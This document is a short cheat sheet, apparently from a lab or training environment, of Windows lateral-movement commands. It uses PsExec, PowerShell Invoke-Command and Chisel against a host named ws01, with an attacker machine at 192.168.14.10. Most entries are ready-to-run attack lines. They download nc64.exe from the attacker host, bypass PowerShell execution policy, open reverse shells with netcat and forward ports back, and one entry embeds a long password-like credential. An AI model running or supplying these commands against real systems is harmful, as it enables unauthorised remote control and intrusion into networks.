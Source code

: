 ## Tool: Psexec.exe

To launch a command prompt on a remote machine (using password)

- ``` .\psexec.exe -accepteula -s \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password cmd.exe ```

To download nc64.exe on a remote machine (using password)

- ``` C:\Users\Public\psexec.exe -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe; ```

To get a reverse shell (using password) (requires nc64.exe to be downloaded on the target machine)

- PowerShell 1: ``` .\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p qNkr96DvM03s58ckId8Bi867iuLp4BUNKbOTjFuHMrDu5AtI cmd.exe /c C:\users\Public\nc64.exe 191.168.14.10 8080 -e "powershell.exe -Executionpolicy bypass" ```

- PowerShell 2: ``` C:\Users\Public\psexec.exe -s -accepteula \\ws01.taxfirstlabz.xyz -u ws01\Administrator -p password  powershell.exe -executionpolicy bypass -c C:\Users\Public\nc64.exe 192.168.14.10 8008 -e powershell.exe ```

- Cmd: ``` .\psexec.exe -accepteula \\ws01 -u ws01\Administrator -p password cmd.exe /c C:\users\Public\nc64.exe 192.168.14.10 8080 -e cmd.exe```

## Tool: PSRemote

To download nc64.exe on a remote machine and obtain a reverse shell (using PSCredential object)

```powershell
[string]$userName = 'yaksas'
[string]$userPassword = 'password'

# Convert to SecureString
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

Invoke-Command -Scriptblock {wget http://192.168.14.10/nc64.exe -o C:\Users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8081 -e powershell.exe} -computername ws01 -credential $credOjbect
```

## Tool: Chisel

To forward local port 80 

```Start-job -name "chisel" -ScriptBlock {C:\Users\yks\appdata\chisel.exe client 192.168.14.10:8080 R:8008:127.0.0.1:80}```

## Convert to full shell

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

## Start a python3 web server

```python3 -m http.server ```
